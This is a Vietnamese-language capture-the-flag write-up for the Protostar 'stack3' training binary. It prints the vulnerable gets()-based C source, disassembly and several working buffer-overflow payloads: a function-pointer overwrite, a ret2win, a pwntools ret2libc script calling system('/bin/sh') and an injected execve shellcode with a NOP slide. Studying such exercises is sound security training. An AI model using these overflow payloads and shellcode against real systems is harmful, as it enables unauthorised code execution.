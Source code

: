 # stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

hàm main()

![main](main.png)

Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`

![fp](fp.png)

### Ret2win

trước tiên ta cần truyền giá trị hợp lệ cho fp, mình sẽ để nó trỏ đến lệnh ngay sau call EAX. Sau đó ghi đè EIP bằng địa chỉ hàm win. Dùng cyclic và gdb tìm đc nốt phần padding phía sau là 12byte.
payload: `python2 -c 'print "a"*64+"\x77\x84\x04\x08"+"a"*12+ "\x24\x84\x04\x08"' | ./stack3`
![sol2](sol2.png)

## spawn shell

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*64+p32(0x08048477)+b"a"*12   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process
p = process('./stack3')
p.sendline(payload)
p.interactive()
```

![shell1](shell1.png)

### inject shellcode

```python
from pwn import *

padding = b"a"*64+p32(0x08048477)+b"a"*12
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack3'])
p.sendline(payload)
p.interactive()
```

